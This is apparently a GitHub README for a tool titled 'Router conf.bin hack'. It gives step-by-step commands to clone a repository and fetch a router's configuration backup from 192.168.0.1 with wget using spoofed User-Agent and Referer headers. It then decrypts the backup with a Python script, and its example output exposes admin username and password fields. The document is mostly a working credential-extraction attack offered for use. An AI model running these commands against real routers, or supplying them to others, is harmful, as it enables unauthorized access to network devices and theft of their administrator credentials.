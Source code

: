 ```yaml
---
# Router conf.bin hack
---
```


``` apt update && apt upgrade ```

``` git clone https://github.com/princeicon2712/conf.rejaul.git ```

``` cd conf.rejaul ```

``` pip install pycryptodome ```
## Conf.bin file Downlod Now:

``` wget -d --header="User-Agent: Mozilla/5.0 (Windows NT 6.0) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.97 Safari/537.11" --header="Referer: http://192.168.0.1/mainFrame.htm" --header="Accept-Encoding: compress, gzip" http://192.168.0.1/cgi/conf.bin ```
## conberd conf.bin from conf.xml:

``` python rejaul.py conf.bin conf.xml ```

---
## conf.xml see Example:
---

``` <AdminName val=Alexis /> ```
``` <AdminPwd val= password /> ```

## developer profile by Rejaul Korim :

<img src="rejaul.jpg" width="500"/>
